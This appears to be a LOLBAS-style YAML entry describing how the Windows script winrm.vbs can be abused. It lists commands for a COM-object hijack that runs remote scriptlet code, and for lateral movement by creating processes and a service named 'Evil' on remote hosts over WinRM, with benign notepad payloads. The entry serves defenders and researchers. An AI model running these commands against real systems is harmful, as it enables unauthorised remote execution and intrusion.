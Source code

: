 ---
Name: Winrm.vbs
Description: Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: reg.exe import c:\path\to\Slmgr.reg & winrm quickconfig
    Description: Hijack the Scripting.Dictionary COM Object to execute remote scriptlet (SCT) code.
  - Command: winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:http://target:5985
    Description: Lateral movement/Remote Command Execution via WMI Win32_Process class over the WinRM protocol.
  - Command: "winrm invoke Create wmicimv2/Win32_Service @{Name="Evil";DisplayName="Evil";PathName="cmd.exe /k c:\windows\system32\notepad.exe"} -r:http://acmedc:5985   \nwinrm invoke StartService wmicimv2/Win32_Service?Name=Evil -r:http://acmedc:5985"
    Description: Lateral movement/Remote Command Execution via WMI Win32_Service class over the WinRM protocol.
Full Path:
  - C:\windows\system32\winrm.vbs
  - C:\windows\SysWOW64\winrm.vbs
Code Sample:
  - https://github.com/api0cradle/LOLBAS/blob/master/OSScripts/Payload/Slmgr.reg
  - https://github.com/api0cradle/LOLBAS/blob/master/OSScripts/Payload/Slmgr_calc.sct
Detection: []
Resources:
  - https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  - https://www.youtube.com/watch?v=3gz1QmiMhss
  - https://github.com/enigma0x3/windows-operating-system-archaeology
  - https://redcanary.com/blog/lateral-movement-winrm-wmi/
  - https://twitter.com/bohops/status/994405551751815170
Notes: Thanks to Matt Nelson - @enigma0x3 (Hijack), Casey Smith - @subtee (Hijack), Red Canary Company cc: Tony Lambert - @redcanaryco (Win32_Process LM), Jimmy - @bohops (Win32_Service LM)